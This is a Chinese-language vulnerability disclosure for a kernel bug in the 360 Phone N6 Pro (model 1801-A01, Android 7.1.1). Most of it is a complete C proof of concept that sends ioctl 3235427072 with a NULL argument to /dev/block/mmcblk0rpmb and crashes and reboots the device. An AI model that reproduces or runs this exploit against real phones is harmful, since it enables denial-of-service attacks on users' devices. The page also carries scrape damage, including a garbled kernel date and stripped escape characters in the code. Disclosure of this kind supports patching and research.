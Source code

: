 # 360 Phone N6 Pro内核漏洞

## 一、漏洞简介

360 Phone N6 Pro V096内核组件中的内核模块允许攻击者使用命令**3235427072**在设备/ dev / block / mmcblk0rpmb上通过ioctl的自变量注入精心设计的自变量，并导致内核崩溃。

## 二、漏洞影响

- 名称：360 Phone N6 Pro
- 型号：1801-A01
- 安卓版本：7.1.1
- 版本号：V096
- 内核版本：Linux localhost 4.4.21-perf＃1 SMP PREEMPT Wed Mar 28 28 15:24:20 UTC 2018 aarch64

## 三、复现过程

### poc

```
/*
* This is poc of 360 N6 Pro, 1801-A01
* Android Version: 7.1.1
* Version Number: V096
* Kernel Version: Linux localhost 4.4.21-perf #1 SMP PREEMPT Wed Mar 28 15:24:20 UTC 2018 aarch64
* A NULL pointer bug in the ioctl interface of device file /dev/block/mmcblk0rpmb causes the system crash via IOCTL 3235427072.
* This Poc should run with permission to do ioctl on /dev/block/mmcblk0rpmb.
*/
#include <stdio.h>
#include <fcntl.h>
#include <errno.h>
#include <sys/ioctl.h>

const static char *driver = "/dev/block/mmcblk0rpmb";
static command = 3235427072; // 0xc0d8b300

int main(int argc, char **argv, char **env) {
int fd = 0;
fd = open(driver, O_RDWR);
if (fd < 0) {
printf("Failed to open %s, with errno %dn", driver, errno);
system("echo 1 > /data/local/tmp/log");
return -1;
}

printf("Try ioctl device file '%s', with command 0x%x and payload NULLn", driver, command);
printf("System will crash and reboot.n");
if(ioctl(fd, command, NULL) < 0) {
printf("Allocation of structs failed, %dn", errno);
system("echo 2 > /data/local/tmp/log");
return -1;
}
close(fd);
return 0;
}
```